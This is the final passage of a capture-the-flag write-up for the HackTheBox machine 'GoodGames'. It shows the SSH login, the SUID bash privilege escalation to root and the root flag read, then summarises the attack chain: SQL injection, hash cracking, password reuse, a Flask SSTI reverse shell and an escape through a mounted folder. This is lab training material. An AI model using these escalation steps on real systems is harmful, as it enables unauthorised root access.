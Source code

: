 - SSH back into the host
  - changes to `bash` file are reflected

```bash
ssh augustus@172.19.0.1

augustus@GoodGames:~$ ls -lh bash 
-rwsr-xr-x 1 root root 1.2M Jul  6 23:12 bash
```

- Spawn a shell with the effective UID (`euid`) of root

```bash
augustus@GoodGames:~$ ./bash -p

bash-5.1# id
uid=1000(augustus) gid=1000(augustus) euid=0(root) groups=1000(augustus)
```

```bash
# Root Flag
bash-5.1# cat /root/root.txt 
e88fa***************************
```

---

## Summary

1. Nmap scan showed only port **80** open.
2. Login page vulnerable to time-based **SQL injection**; dumped database with `sqlmap`.
3. **Cracked admin hash** and logged into the main site.
4. Found Flask app login and accessed it via **password reuse**.
5. Exploited Flask **SSTI vulnerability** to get a **reverse shell in a Docker container**.
6. Container had the host’s `/home/augustus` directory **mounted**.
7. Reused the same password to **SSH into the host** as `augustus`, from the container.
8. Used the mounted home directory to drop a **SUID** `bash` binary and escalate to root.

---

## Extra

- [HTB: GoodGames | 0xdf hacks stuff](https://0xdf.gitlab.io/2022/02/23/htb-goodgames.html)
- [SQLi, SSTI & Docker Escapes / Mounted Folders - HackTheBox University CTF "GoodGame" - John Hammond](https://www.youtube.com/watch?v=0oTuH_xY3mw)

------

